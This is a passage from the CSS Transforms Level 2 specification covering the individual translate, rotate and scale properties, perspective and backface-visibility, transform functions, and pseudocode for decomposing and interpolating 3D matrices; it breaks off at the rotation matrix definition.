> The same basic procedure would apply if one or three vertices had *w* < 0. However, in that case the result of truncating the *w* < 0 part would be a triangle or pentagon instead of a quadrilateral.

### 5. Individual Transform Properties: the `translate`, `scale`, and `rotate` properties {#css-transforms-2:individual-transforms}

The `translate`, `rotate`, and `scale` properties allow authors to specify simple transforms independently, in a way that maps to typical user interface usage, rather than having to remember the order in `transform` that keeps the actions of `translate()`, `rotate()` and `scale()` independent and acting in screen coordinates.

| Field | Value |
| --- | --- |
| Name: | **translate** |
| [Value:](#css-values-4:value-defs) | none \| `<length-percentage>` [ <length-percentage> `<length>`? ]? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to the width of the reference box (for the first value) or the height (for the second value) |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a pair of computed `<length-percentage>` values and an absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value, but see below for `none` |

The `translate` property accepts 1-3 values, each specifying a translation against one axis, in the order X, Y, then Z. When the second or third values are missing, they default to `0px`.

If the third value is omitted or zero, this specifies a 2d translation, equivalent to the `translate()` function. Otherwise, this specifies a 3d translation, equivalent to the `translate3d()` function.

> **Note:** The resolved value of the `translate` property is the computed value, and thus `getComputedStyle()` includes percentage values in its results.

| Field | Value |
| --- | --- |
| Name: | **rotate** |
| [Value:](#css-values-4:value-defs) | none \| `<angle>` \| [ x \| y \| z \| `<number>`{3} ] && <angle> |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`, or an `<angle>` with an axis consisting of a list of three `<number>`s |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | as SLERP, but see below for `none` |

The `rotate` property accepts an angle to rotate an element, and optionally an axis to rotate it around.

The axis can be specified with either the **x**, **y**, or **z** keywords, which specify a rotation around that axis, equivalent to the `rotateX()`, `rotateY()`, and `rotateZ()` transform functions. Alternately, the axis can be specified explicitly by giving three numbers representing the x, y, and z components of an origin-centered vector, equivalent to the `rotate3d()` function.

There is no difference in behavior between a rotation specified as an `<angle>` alone and a rotation specified as being around the z-axis (whether by the `z` keyword or by a vector whose first two components are zero and third component is positive); they are all 2d rotations equivalent to the `rotate()` function. For example, `rotate: 30deg`, `rotate: z 30deg`, and `rotate: 0 0 1 30deg` are equivalent.

| Field | Value |
| --- | --- |
| Name: | **scale** |
| [Value:](#css-values-4:value-defs) | none \| [ `<number>` \| `<percentage>` ]{1,3} |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`, or a list of 3 `<number>`s |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value, but see below for `none` |

The `scale` property accepts 1-3 values, each specifying a scale along one axis, in order X, Y, then Z.

If the Y value is not given, then it defaults to being the same as the X value.

If the Z value is not given, then it defaults to `1`.

If the third value is omitted, `1`, or `100%`, this specifies a 2d scaling, equivalent to the `scale()` function. Otherwise, this specifies a 3d scaling, equivalent to the `scale3d()` function.

There is no difference in behavior between the third value being omitted and the third value being `1` or `100%`.

A `<percentage>` is equivalent to a `<number>`, for example `scale: 100%` is equivalent to `scale: 1`. Numbers are used during serialization of specified and computed values.

---

All three properties accept (and default to) the value **none**, which produces no transform at all. In particular, this value does *not* trigger the creation of a stacking context or containing block for all descendants, while all other values (including “identity” transforms like `translate: 0px`) create a stacking context and containing block for all descendants, per usual for transforms.

When `translate`, `rotate` or `scale` are animating or transitioning, and the from value or to value (but not both) is `none`, the value `none` is replaced by the equivalent identity value (`0px` for translate, `0deg` for rotate, `1` for scale).

#### 5.1. Serialization {#css-transforms-2:individual-transform-serialization}

Because these properties have two distinct modes of behavior (no transform versus transform), serialization must take this into account:

**for `translate`**

: If a translation is specified, the property must serialize with one through three values. (As usual, if the second and third values are `0px`, the default, or if only the third value is `0px`, then those `0px` values must be omitted when serializing).

  It must serialize as the keyword `none` if and only if `none` was originally specified. (An identity transform does not count; it must serialize as `0px`.)

**for `rotate`**

: If a rotation about the z axis (that is, in 2D) is specified, the property must serialize as just an `<angle>`.

  If any other rotation is specified, the property must serialize with an axis specified. If the axis is parallel with the x or y axes, it must serialize as the appropriate keyword.

  It must serialize as the keyword `none` if and only if `none` was originally specified. (An identity transform does not count; it must serialize as `0deg`.)

**for `scale`**

: If a scale is specified, the property must serialize with only one through three values. As usual, if the third value is 1, the default, then it is omitted when serializing. If the third value is omitted and the second value is the same as the first (the default), then the second value is also omitted when serializing.

  It must serialize as the keyword `none` if and only if `none` was originally specified. (An identity transform does not count; it must serialize as `1`.)

### 6. Current Transformation Matrix {#css-transforms-2:ctm}

The transformation matrix computation is amended to the following:

The transformation matrix is computed from the `transform`, `transform-origin`, `translate`, `rotate`, `scale`, and `offset` properties as follows:

1. Start with the identity matrix.
2. Translate by the computed X, Y, and Z values of `transform-origin`.
3. Translate by the computed X, Y, and Z values of `translate`.
4. Rotate by the computed `<angle>` about the specified axis of `rotate`.
5. Scale by the computed X, Y, and Z values of `scale`.
6. Translate and rotate by the transform specified by `offset`.
7. Multiply by each of the transform functions in `transform` from left to right.
8. Translate by the negated computed X, Y and Z values of `transform-origin`.

### 7. The `transform-style` Property {#css-transforms-2:transform-style-property}

| Field | Value |
| --- | --- |
| Name: | **transform-style** |
| [Value:](#css-values-4:value-defs) | flat \| preserve-3d |
| [Initial:](#css-cascade-6:initial-values) | flat |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Used value: | flat if a [grouping property](#css-transforms-2:grouping-property-values) is present, specified keyword otherwise |

A computed value of `preserve-3d` for `transform-style` on a transformable element establishes both a stacking context and a containing block for all descendants. If the used value is `preserve-3d` then it also establishes or extends a 3D rendering context.

#### 7.1. Grouping property values {#css-transforms-2:grouping-property-values}

The following CSS property values require the user agent to create a flattened representation of the descendant elements before they can be applied, and therefore force the element to have a used style of `flat` for `preserve-3d`.

- `overflow`: any value other than `visible` or `clip`.
- `opacity`: any value less than 1.
- `filter`: any value other than `none`.
- `clip`: any value other than `auto`.
- `clip-path`: any value other than `none`.
- `isolation`: used value of `isolate`.
- `mask-image`: any value other than `none`.
- `mask-border-source`: any value other than `none`.
- `mix-blend-mode`: any value other than `normal`.
- `contain`: `paint` and any other property/value combination that causes paint containment. Note: this includes any property that affect the used value of the `contain` property, such as `content-visibility: hidden`.

### 8. The `perspective` Property {#css-transforms-2:perspective-property}

| Field | Value |
| --- | --- |
| Name: | **perspective** |
| [Value:](#css-values-4:value-defs) | none \| `<length [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or an absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

****`<length [0,∞]>`****

: Distance to the center of projection.

  > **Issue:** Verify that projection is the distance to the center of projection.

  As very small `<length>` values can produce bizarre rendering results and stress the numerical accuracy of transform calculations, values less than `1px` must be treated as `1px` for rendering purposes. (This clamping does not affect the underlying value, so `perspective: 0;` in a stylesheet will still serialize back as `0`.)

****none****

: No perspective transform is applied. The effect is mathematically similar to an infinite `<length>` value. All objects appear to be flat on the canvas.

The use of this property with any value other than `none` establishes a stacking context. It also establishes a containing block for all descendants, just like the `transform` property does.

> **Issue:** We don’t really need to be a stacking context or containing block for perspective, but maybe webcompat means we can’t change this.

The values of the `perspective` and `perspective-origin` properties are used to compute the perspective matrix, as described above.

### 9. The `perspective-origin` Property {#css-transforms-2:perspective-origin-property}

The `perspective-origin` property establishes the origin for the `perspective` property. It effectively sets the X and Y position at which the viewer appears to be looking at the children of the element.

| Field | Value |
| --- | --- |
| Name: | **perspective-origin** |
| [Value:](#css-values-4:value-defs) | `<position>` |
| [Initial:](#css-cascade-6:initial-values) | 50% 50% |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the size of the reference box |
| [Computed value:](#css-cascade-6:computed) | see `background-position` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The values of the `perspective` and `perspective-origin` properties are used to compute the perspective matrix, as described above.

The values for `perspective-origin` represent an offset of the perspective origin from the top left corner of the reference box.

****`<percentage>`****

: A percentage for the horizontal perspective offset is relative to the width of the reference box. A percentage for the vertical offset is relative to height of the reference box. The value for the horizontal and vertical offset represent an offset from the top left corner of the reference box.

****`<length>`****

: A length value gives a fixed length as the offset. The value for the horizontal and vertical offset represent an offset from the top left corner of the reference box.

****top****

: Computes to `0%` for the vertical position if one or two values are given, otherwise specifies the top edge as the origin for the next offset.

****right****

: Computes to `100%` for the horizontal position if one or two values are given, otherwise specifies the right edge as the origin for the next offset.

****bottom****

: Computes to `100%` for the vertical position if one or two values are given, otherwise specifies the bottom edge as the origin for the next offset.

****left****

: Computes to `0%` for the horizontal position if one or two values are given, otherwise specifies the left edge as the origin for the next offset.

****center****

: Computes to `50%` (`left 50%`) for the horizontal position if the horizontal position is not otherwise specified, or `50%` (`top 50%`) for the vertical position if it is.

The `perspective-origin` property is a resolved value special case property like `height`. [CSSOM]

### 10. The `backface-visibility` Property {#css-transforms-2:backface-visibility-property}

| Field | Value |
| --- | --- |
| Name: | **backface-visibility** |
| [Value:](#css-values-4:value-defs) | visible \| hidden |
| [Initial:](#css-cascade-6:initial-values) | visible |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

A computed value of `hidden` for `backface-visibility` on a transformable element that participates in a 3D rendering context establishes both a stacking context and a containing block for all descendants.

The visibility of an element with `backface-visibility: hidden` is determined as follows:

1. Compute the element’s accumulated 3D transformation matrix.
2. If the component of the matrix in row 3, column 3 is negative, then the element should be hidden. Otherwise it is visible.

> **Issue:** Backface-visibility cannot be tested by only looking at m33. See [#917](https://github.com/w3c/csswg-drafts/issues/917).

> **Note:** The reasoning for this definition is as follows. Assume elements are rectangles in the *x*–*y* plane with infinitesimal thickness. The front of the untransformed element has coordinates like (*x*, *y*, *ε*), and the back is (*x*, *y*, −*ε*), for some very small *ε*. We want to know if after the transformation, the front of the element is closer to the viewer than the back (higher *z*-value) or further away. The *z*-coordinate of the front will be m13*x* + m23*y* + m33*ε* + m43, before accounting for perspective, and the back will be m13*x* + m23*y* − m33*ε* + m43. The first quantity is greater than the second if and only if m33 > 0. (If it equals zero, the front and back are equally close to the viewer. This probably means something like a 90-degree rotation, which makes the element invisible anyway, so we don’t really care whether it vanishes.)

### 11. SVG and 3D transform functions {#css-transforms-2:svg-three-dimensional-functions}

This specification explicitly requires three-dimensional transform functions to apply to the container elements: `a`, `g`, `svg`, all graphics elements, all graphics referencing elements and the SVG `foreignObject` element.

Three-dimensional transform functions and the properties `perspective`, `perspective-origin`, `transform-style` and `backface-visibility` can not be used for the elements: `clipPath`, `linearGradient`, `radialGradient` and `pattern`. If a transform list includes a three-dimensional transform function, the complete transform list must be ignored. The values of every previously named property must be ignored. Transformable elements that are contained by one of these elements can have three-dimensional transform functions. The `clipPath`, `mask`, `pattern` elements require the user agent to create a flattened representation of the descendant elements before they can be applied, and therefore override the behavior of `transform-style: preserve-3d`.

If the `vector-effect` property is set to `non-scaling-stroke` and an object is within a 3D rendering context the property has no affect on stroking the object.

> **Issue:** formally describe the syntax of the 3D transform functions in SVG, as is done [for the 2-D functions](#css-transforms-1:svg-syntax).

### 12. The Transform Functions {#css-transforms-2:transform-functions}

The value of the `transform` property is a list of **<transform-function>**. The set of allowed transform functions is given below. Wherever `<angle>` is used in this specification, a `<number>` that is equal to zero is also allowed, which is treated the same as an angle of zero degrees. A percentage for horizontal translations is relative to the width of the reference box. A percentage for vertical translations is relative to the height of the reference box. A percentage in a scale function is equivalent to a number, and serializes as a number in specified values. For example, `scale3d(50%, 100%, 150%)` serializes as `scale3d(0.5, 1, 1.5)`.

#### 12.1. 2D Transform Functions {#css-transforms-2:two-d-transform-functions}

The scale functions defined in [css-transforms-1] now support percentages.

****scale()** = scale( [ `<number>` | `<percentage>` ]#{1,2} ) **scaleX()** = scaleX( [ `<number>` | `<percentage>` ] ) **scaleY()** = scaleY( [ `<number>` | `<percentage>` ] )**

: As [defined in css-transforms-1](#css-transforms-1:two-d-transform-functions), but also accepting percentages as [described above](#css-transforms-2:transform-functions).

#### 12.2. 3D Transform Functions {#css-transforms-2:three-d-transform-functions}

In the following **3d transform functions**, a `<zero>` behaves the same as `0deg`. ("Unitless 0" angles are preserved for legacy compat reasons.)

****matrix3d()** = matrix3d( `<number>`#{16} )**

: specifies a 3D transformation as a 4x4 homogeneous matrix of 16 values in column-major order.

****translate3d()** = translate3d( `<length-percentage>` , <length-percentage> , `<length>` )**

: specifies a [3D translation](#css-transforms-2:Translate3dDefined) by the vector [tx,ty,tz], with tx, ty and tz being the first, second and third translation-value parameters respectively.

****translateZ()** = translateZ( `<length>` )**

: specifies a [3D translation](#css-transforms-2:Translate3dDefined) by the vector [0,0,tz] with the given amount in the Z direction.

****scale3d()** = scale3d( [ `<number>` | `<percentage>` ]#{3} )**

: specifies a [3D scale](#css-transforms-2:Scale3dDefined) operation by the [sx,sy,sz] scaling vector described by the 3 parameters.

****scaleZ()** = scaleZ( [ `<number>` | `<percentage>` ] )**

: specifies a [3D scale](#css-transforms-2:Scale3dDefined) operation using the [1,1,sz] scaling vector, where sz is given as the parameter.

****rotate3d()** = rotate3d( `<number>` , <number> , <number> , [ `<angle>` | `<zero>` ] )**

: specifies a [3D rotation](#css-transforms-2:Rotate3dDefined) by the angle specified in last parameter about the [x,y,z] direction vector described by the first three parameters. A direction vector that cannot be normalized, such as [0,0,0], will cause the rotation to not be applied.

  > **Note:** the rotation is clockwise as one looks from the end of the vector toward the origin.

****rotateX()** = rotateX( [ `<angle>` | `<zero>` ] )**

: same as `rotate3d(1, 0, 0, <angle>)`.

****rotateY()** = rotateY( [ `<angle>` | `<zero>` ] )**

: same as `rotate3d(0, 1, 0, <angle>)`.

****rotateZ()** = rotateZ( [ `<angle>` | `<zero>` ] )**

: same as `rotate3d(0, 0, 1, <angle>)`, which is a 3d transform equivalent to the 2d transform `rotate(<angle>)`.

****perspective()** = perspective( [ `<length [0,∞]>` | **none** ] )**

: specifies a [perspective projection matrix](#css-transforms-2:PerspectiveDefined). This matrix scales points in X and Y based on their Z value, scaling points with positive Z values away from the origin, and those with negative Z values towards the origin. Points on the z=0 plane are unchanged. The parameter represents the distance of the z=0 plane from the viewer. Lower values give a more flattened pyramid and therefore a more pronounced perspective effect. For example, a value of 1000px gives a moderate amount of foreshortening and a value of 200px gives an extreme amount.

  If the depth value is less than `1px`, it must be treated as `1px` for the purpose of rendering, for computing the resolved value of `transform`, and when used as the endpoint of [interpolation](#css-transforms-2:interpolation-of-transform-functions).

  > **Note:** The intent of the above rules on values less than `1px` is that they cover the cases where the `perspective()` function needs to be converted into a matrix.

#### 12.3. Transform function primitives and derivatives {#css-transforms-2:transform-primitives}

Some transform functions can be represented by more generic transform functions. These transform functions are called derived transform functions, and the generic transform functions are called primitive transform functions. Three-dimensional primitives and their derived transform functions are:

**`translate3d()`**

: for `<translateX()>`, `<translateY()>`, `translateZ()` and `<translate()>`.

**`scale3d()`**

: for `<scaleX()>`, `<scaleY()>`, `scaleZ()` and `<scale()>`.

**`rotate3d()`**

: for `<rotate()>`, `rotateX()`, `rotateY()` and `rotateZ()`.

For derived transform functions that have a two-dimensional primitive and a three-dimensional primitive, the context decides about the used primitive. See [Interpolation of primitives and derived transform functions](#css-transforms-2:interpolation-of-transform-functions).

### 13. Interpolation of Matrices {#css-transforms-2:matrix-interpolation}

When interpolating between two matrices, each matrix is decomposed into the corresponding translation, rotation, scale, skew and (for a 3D matrix) perspective values. Each corresponding component of the decomposed matrices gets interpolated numerically and recomposed back to a matrix in a final step.

#### 13.1. Interpolation of 3D matrices {#css-transforms-2:interpolation-of-3d-matrices}

##### 13.1.1. Decomposing a 3D matrix {#css-transforms-2:decomposing-a-3d-matrix}

The pseudo code below is based upon the "unmatrix" method in "Graphics Gems II, edited by Jim Arvo", but modified to use Quaternions instead of Euler angles to avoid the problem of Gimbal Locks.

The following pseudocode works on a 4x4 homogeneous matrix:

```
Input:  matrix      ; a 4x4 matrix
Output: translation ; a 3 component vector
        scale       ; a 3 component vector
        skew        ; skew factors XY,XZ,YZ represented as a 3 component vector
        perspective ; a 4 component vector
        quaternion  ; a 4 component vector
Returns false if the matrix cannot be decomposed, true if it can

// Normalize the matrix.
if (matrix[3][3] == 0)
    return false

for (i = 0; i < 4; i++)
    for (j = 0; j < 4; j++)
        matrix[i][j] /= matrix[3][3]

// perspectiveMatrix is used to solve for perspective, but it also provides
// an easy way to test for singularity of the upper 3x3 component.
perspectiveMatrix = matrix

for (i = 0; i < 3; i++)
    perspectiveMatrix[i][3] = 0

perspectiveMatrix[3][3] = 1

if (determinant(perspectiveMatrix) == 0)
    return false

// First, isolate perspective.
if (matrix[0][3] != 0 || matrix[1][3] != 0 || matrix[2][3] != 0)
    // rightHandSide is the right hand side of the equation.
    rightHandSide[0] = matrix[0][3]
    rightHandSide[1] = matrix[1][3]
    rightHandSide[2] = matrix[2][3]
    rightHandSide[3] = matrix[3][3]

    // Solve the equation by inverting perspectiveMatrix and multiplying
    // rightHandSide by the inverse.
    inversePerspectiveMatrix = inverse(perspectiveMatrix)
    transposedInversePerspectiveMatrix = transposeMatrix4(inversePerspectiveMatrix)
    perspective = multVecMatrix(rightHandSide, transposedInversePerspectiveMatrix)
else
    // No perspective.
    perspective[0] = perspective[1] = perspective[2] = 0
    perspective[3] = 1

// Next take care of translation
for (i = 0; i < 3; i++)
    translate[i] = matrix[3][i]

// Now get scale and shear. 'row' is a 3 element array of 3 component vectors
for (i = 0; i < 3; i++)
    row[i][0] = matrix[i][0]
    row[i][1] = matrix[i][1]
    row[i][2] = matrix[i][2]

// Compute X scale factor and normalize first row.
scale[0] = length(row[0])
row[0] = normalize(row[0])

// Compute XY shear factor and make 2nd row orthogonal to 1st.
skew[0] = dot(row[0], row[1])
row[1] = combine(row[1], row[0], 1.0, -skew[0])

// Now, compute Y scale and normalize 2nd row.
scale[1] = length(row[1])
row[1] = normalize(row[1])
skew[0] /= scale[1];

// Compute XZ and YZ shears, orthogonalize 3rd row
skew[1] = dot(row[0], row[2])
row[2] = combine(row[2], row[0], 1.0, -skew[1])
skew[2] = dot(row[1], row[2])
row[2] = combine(row[2], row[1], 1.0, -skew[2])

// Next, get Z scale and normalize 3rd row.
scale[2] = length(row[2])
row[2] = normalize(row[2])
skew[1] /= scale[2]
skew[2] /= scale[2]

// At this point, the matrix (in rows) is orthonormal.
// Check for a coordinate system flip.  If the determinant
// is -1, then negate the matrix and the scaling factors.
pdum3 = cross(row[1], row[2])
if (dot(row[0], pdum3) < 0)
    for (i = 0; i < 3; i++)
        scale[i] *= -1;
        row[i][0] *= -1
        row[i][1] *= -1
        row[i][2] *= -1

// Now, get the rotations out
quaternion[0] = 0.5 * sqrt(max(1 + row[0][0] - row[1][1] - row[2][2], 0))
quaternion[1] = 0.5 * sqrt(max(1 - row[0][0] + row[1][1] - row[2][2], 0))
quaternion[2] = 0.5 * sqrt(max(1 - row[0][0] - row[1][1] + row[2][2], 0))
quaternion[3] = 0.5 * sqrt(max(1 + row[0][0] + row[1][1] + row[2][2], 0))

if (row[2][1] > row[1][2])
    quaternion[0] = -quaternion[0]
if (row[0][2] > row[2][0])
    quaternion[1] = -quaternion[1]
if (row[1][0] > row[0][1])
    quaternion[2] = -quaternion[2]

return true
```

##### 13.1.2. Interpolation of decomposed 3D matrix values {#css-transforms-2:interpolation-of-decomposed-3d-matrix-values}

Each component of the decomposed values translation, scale, skew and perspective of the source matrix get linearly interpolated with each corresponding component of the destination matrix.

> **Note:** For instance, `translate[0]` of the source matrix and `translate[0]` of the destination matrix are interpolated numerically, and the result is used to set the translation of the animating element.

Quaternions of the decomposed source matrix are interpolated with quaternions of the decomposed destination matrix using the spherical linear interpolation (Slerp) as described by the pseudo code below:

```
Input:  quaternionA   ; a 4 component vector
        quaternionB   ; a 4 component vector
        t             ; interpolation parameter with 0 <= t <= 1
Output: quaternionDst ; a 4 component vector

product = dot(quaternionA, quaternionB)

// Clamp product to -1.0 <= product <= 1.0
product = min(product, 1.0)
product = max(product, -1.0)

if (abs(product) == 1.0)
   quaternionDst = quaternionA
   return

theta = acos(product)
w = sin(t * theta) / sqrt(1 - product * product)

for (i = 0; i < 4; i++)
  quaternionA[i] *= cos(t * theta) - product * w
  quaternionB[i] *= w
  quaternionDst[i] = quaternionA[i] + quaternionB[i]

return
```

##### 13.1.3. Recomposing to a 3D matrix {#css-transforms-2:recomposing-to-a-3d-matrix}

After interpolation, the resulting values are used to transform the elements user space. One way to use these values is to recompose them into a 4x4 matrix. This can be done following the pseudo code below:

```
Input:  translation ; a 3 component vector
        scale       ; a 3 component vector
        skew        ; skew factors XY,XZ,YZ represented as a 3 component vector
        perspective ; a 4 component vector
        quaternion  ; a 4 component vector
Output: matrix      ; a 4x4 matrix

Supporting functions (matrix is a 4x4 matrix):
  matrix  multiply(matrix a, matrix b)   returns the 4x4 matrix product of a * b

// apply perspective
for (i = 0; i < 4; i++)
  matrix[i][3] = perspective[i]

// apply translation
for (i = 0; i < 4; i++)
  for (j = 0; j < 3; j++)
    matrix[3][i] += translation[j] * matrix[j][i]

// apply rotation
x = quaternion[0]
y = quaternion[1]
z = quaternion[2]
w = quaternion[3]

// Construct a composite rotation matrix from the quaternion values
// rotationMatrix is a identity 4x4 matrix initially
rotationMatrix[0][0] = 1 - 2 * (y * y + z * z)
rotationMatrix[0][1] = 2 * (x * y - z * w)
rotationMatrix[0][2] = 2 * (x * z + y * w)
rotationMatrix[1][0] = 2 * (x * y + z * w)
rotationMatrix[1][1] = 1 - 2 * (x * x + z * z)
rotationMatrix[1][2] = 2 * (y * z - x * w)
rotationMatrix[2][0] = 2 * (x * z - y * w)
rotationMatrix[2][1] = 2 * (y * z + x * w)
rotationMatrix[2][2] = 1 - 2 * (x * x + y * y)

matrix = multiply(matrix, rotationMatrix)

// apply skew
// temp is a identity 4x4 matrix initially
if (skew[2])
    temp[2][1] = skew[2]
    matrix = multiply(matrix, temp)

if (skew[1])
    temp[2][1] = 0
    temp[2][0] = skew[1]
    matrix = multiply(matrix, temp)

if (skew[0])
    temp[2][0] = 0
    temp[1][0] = skew[0]
    matrix = multiply(matrix, temp)

// apply scale
for (i = 0; i < 3; i++)
  for (j = 0; j < 4; j++)
    matrix[i][j] *= scale[i]

return
```

### 14. Interpolation of primitives and derived transform functions {#css-transforms-2:interpolation-of-transform-functions}

Two transform functions with the same name and the same number of arguments are interpolated numerically without a former conversion. The calculated value will be of the same transform function type with the same number of arguments. Special rules apply to `<matrix()>`, `<matrix3d()>` and `<perspective()>`.

The transform functions `<matrix()>`, `matrix3d()` and `perspective()` get converted into 4x4 matrices first and interpolated as defined in section [Interpolation of Matrices](#css-transforms-2:matrix-interpolation) afterwards.

For interpolations with the primitive `rotate3d()`, the direction vectors of the transform functions get normalized first. If the normalized vectors are not equal and both rotation angles are non-zero the transform functions get converted into 4x4 matrices first and interpolated as defined in section [Interpolation of Matrices](#css-transforms-2:matrix-interpolation) afterwards. Otherwise the rotation angle gets interpolated numerically and the rotation vector of the non-zero angle is used or (0, 0, 1) if both angles are zero.

> **Example:** The two transform functions `translate(0)` and `translate(100px)` are of the same type, have the same number of arguments and therefore can get interpolated numerically. `translateX(100px)` is not of the same type and `translate(100px, 0)` does not have the same number of arguments, therefore these transform functions can not get interpolated without a former conversion step.

Two different types of transform functions that share the same primitive, or transform functions of the same type with different number of arguments can be interpolated. Both transform functions need a former conversion to the common primitive first and get interpolated numerically afterwards. The computed value will be the primitive with the resulting interpolated arguments.

> **Example:** The following example describes a transition from `translateX(100px)` to `translateY(100px)` in 3 seconds on hovering over the div box. Both transform functions derive from the same primitive `translate()` and therefore can be interpolated.
>
> ```
> div {
>   transform: translateX(100px);
> }
>
> div:hover {
>   transform: translateY(100px);
>   transition: transform 3s;
> }
> ```
>
> For the time of the transition both transform functions get transformed to the common primitive. `translateX(100px)` gets converted to `translate(100px, 0)` and `translateY(100px)` gets converted to `translate(0, 100px)`. Both transform functions can then get interpolated numerically.

If both transform functions share a primitive in the two-dimensional space, both transform functions get converted to the two-dimensional primitive. If one or both transform functions are three-dimensional transform functions, the common three-dimensional primitive is used.

> **Example:** In this example a two-dimensional transform function gets animated to a three-dimensional transform function. The common primitive is `translate3d()`.
>
> ```
> div {
>   transform: translateX(100px);
> }
>
> div:hover {
>   transform: translateZ(100px);
>   transition: transform 3s;
> }
> ```
>
> First `translateX(100px)` gets converted to `translate3d(100px, 0, 0)` and `translateZ(100px)` to `translate3d(0, 0, 100px)` respectively. Then both converted transform functions get interpolated numerically.

### 15. Addition and accumulation of transform lists {#css-transforms-2:combining-transform-lists}

Addition of two transform lists *Va* and *Vb* is defined as list concatenation such that *Vresult* is equal to *Vb* appended to *Va*.

Accumulation of two transform lists *Va* and *Vb* follows the same steps as interpolation with regards to matching transform functions including padding lists with identity transform functions, converting `none` to an identity transform function, and converting both arguments to matrices as necessary (see [CSS Transforms 1 § 9 Interpolation of Transforms](#css-transforms-1:interpolation-of-transforms)). However, instead of interpolating the individual parameters, they are combined using arithmetic addition—​except in the case of parameters whose value is one in the identity transform function (e.g. scale parameters and matrix elements *m11*, *m22*, *m33*, and *m44*), which combine using **accumulation for one-based values** as follows:

*Vresult* = *Va* + *Vb* - 1

> **Note:** The above definition preserves the intent of accumulation which is that *Vb* acts as a delta from *Va* and allows an animation such as:
>
> ```javascript
> div.animate(
>   { transform: ['scale(1)', 'scale(2)'] },
>   {
>     duration: 1000,
>     easing: 'ease',
>   }
> );
> ```
>
> to produce the expected behavior when extended as follows:
>
> ```javascript
> div.animate(
>   { transform: ['scale(1)', 'scale(2)'] },
>   {
>     duration: 1000,
>     easing: 'ease',
>     iterations: 5,
>     iterationComposite: 'accumulate',
>   }
> );
> ```

#### 15.1. Neutral element for addition {#css-transforms-2:neutral-element}

Some animations require a neutral element for addition. For transform functions this is a scalar or a list of scalars of 0. Examples of neutral elements for transform functions are `translate(0)`, `translate3d(0, 0, 0)`, `translateX(0)`, `translateY(0)`, `translateZ(0)`, `scale(0)`, `scaleX(0)`, `scaleY(0)`, `scaleZ(0)`, `rotate(0)`, `rotate3d(vx, vy, vz, 0)` (where *v* is a context dependent vector), `rotateX(0)`, `rotateY(0)`, `rotateZ(0)`, `skew(0, 0)`, `skewX(0)`, `skewY(0)`, `matrix(0, 0, 0, 0, 0, 0)`, `matrix3d(0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0)` and `perspective(none)`.

> **Note:** Animations to or from the neutral element of additions `<matrix()>`, `matrix3d()` and `perspective()` fall back to discrete animations (See [§ 13 Interpolation of Matrices](#css-transforms-2:matrix-interpolation)).

### 16. Mathematical Description of Transform Functions {#css-transforms-2:mathematical-description}

Mathematically, all transform functions can be represented as 4x4 transformation matrices of the following form:

$$\begin{bmatrix} m11 & m21 & m31 & m41 \\ m12 & m22 & m32 & m42 \\ m13 & m23 & m33 & m43 \\ m14 & m24 & m34 & m44 \end{bmatrix}$$

One translation unit on a matrix is equivalent to 1 pixel in the local coordinate system of the element.

- A 3D translation with the parameters *tx*, *ty* and *tz* is equivalent to the matrix:

  $$\begin{bmatrix} 1 & 0 & 0 & tx \\ 0 & 1 & 0 & ty \\ 0 & 0 & 1 & tz \\ 0 & 0 & 0 & 1 \end{bmatrix}$$
- A 3D scaling with the parameters *sx*, *sy* and *sz* is equivalent to the matrix:

  $$\begin{bmatrix} sx & 0 & 0 & 0 \\ 0 & sy & 0 & 0 \\ 0 & 0 & sz & 0 \\ 0 & 0 & 0 & 1 \end{bmatrix}$$
- A 3D rotation with the vector [x,y,z] and the parameter *alpha* is equivalent to the matrix:

